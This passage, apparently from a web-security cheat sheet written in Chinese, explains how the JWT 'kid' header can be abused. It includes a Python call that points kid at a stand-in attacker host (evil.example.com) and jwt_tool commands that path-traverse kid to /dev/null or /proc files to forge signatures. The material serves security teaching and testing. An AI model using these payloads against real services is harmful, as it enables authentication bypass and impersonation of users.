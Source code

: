 [IANA 的 JSON Web Token Claims](https://www.iana.org/assignments/jwt/jwt.xhtml)

### JWT kid 声明误用

JSON Web Token (JWT) 中的 "kid"（密钥 ID）声明是可选的头部参数，用于指示用于签名或加密 JWT 的加密密钥的标识符。需要注意的是，密钥标识符本身不提供任何安全性优势，而是使接收方能够定位用于验证 JWT 完整性的所需密钥。

- 示例 #1 : 本地文件

    ```json
    {
    "alg": "HS256",
    "typ": "JWT",
    "kid": "/root/res/keys/secret.key"
    }
    ```

- 示例 #2 : 远程文件

    ```json
    {
        "alg":"RS256",
        "typ":"JWT",
        "kid":"http://localhost:7070/privKey.key"
    }
    ```

kid 头部中指定的文件内容将用于生成签名。

```js
// 示例 HS256
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  your-256-bit-secret-from-secret.key
)
```

常见的 kid 头部误用方式：

- 获取密钥内容以更改负载
- 更改密钥路径以强制执行自己的

    ```py
    >>> jwt.encode(
    ...     {"some": "payload"},
    ...     "secret",
    ...     algorithm="HS256",
    ...     headers={"kid": "http://evil.example.com/custom.key"},
    ... )
    ```

- 更改密钥路径为具有可预测内容的文件。

  ```ps1
  python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""
  python3 jwt_tool.py <JWT> -I -hc kid -hv "/proc/sys/kernel/randomize_va_space" -S hs256 -p "2"
  ```
